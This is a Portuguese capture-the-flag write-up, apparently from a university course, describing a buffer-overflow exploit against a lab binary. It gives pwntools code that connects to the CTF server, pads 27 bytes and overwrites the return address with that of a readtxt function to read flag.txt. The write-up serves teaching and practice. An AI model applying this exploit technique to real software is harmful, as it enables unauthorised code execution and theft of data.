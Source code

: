 # Buffer Overflow

O código fornecido explora a vulnerabilidade manipulando o fluxo de execução do programa, redirecionando-o para abrir e ler o arquivo flag.txt.

## Etapas da Exploração

Estabelecimento da Conexão: O código configura uma conexão com o binário, localmente ou remotamente:

    r = remote('ctf-fsi.fe.up.pt', 4000)  # Para servidor remoto

### Identificação do Offset:

 O offset do buffer overflow foi identificado como 27 bytes.


### Localização da Função readtxt:

O endereço da função readtxt foi identificado como 0x080497a5. Esse endereço foi encontrado utilizando ferramentas objdump:

    objdump -d program | grep readtxt

### Construção do Payload:

O payload é composto por:
- O argumento da função (flag) armazenado no início do buffer.
- Padding para preencher até o offset (27 bytes).
- O endereço da função readtxt sobrescrevendo o endereço de retorno.
- O argumento (flag) repetido, necessário para ser lido corretamente pela função.

O payload final é construído no código da seguinte forma:

    offset = 27  # Offset do buffer overflow
    padding = b"A" * offset
    readtxt_address = 0x080497a5  # Endereço da função readtxt
    argument = b"flag\0"

    payload = b"flag\0" + padding
    payload += p32(readtxt_address)
    payload += b"flag"

### Execução do Ataque:

O payload é enviado após a mensagem inicial do programa:

    r.recvuntil(b"flag:\n")  # Aguarda o prompt do programa
    r.sendline(payload)      # Envia o payload

O programa é explorado para abrir e ler o conteúdo de flag.txt, retornando o resultado ao atacante:

    buf = r.recv().decode()  # Recebe e decodifica a flag
    print(buf)

![image](/screenshots/CTF5_1.png)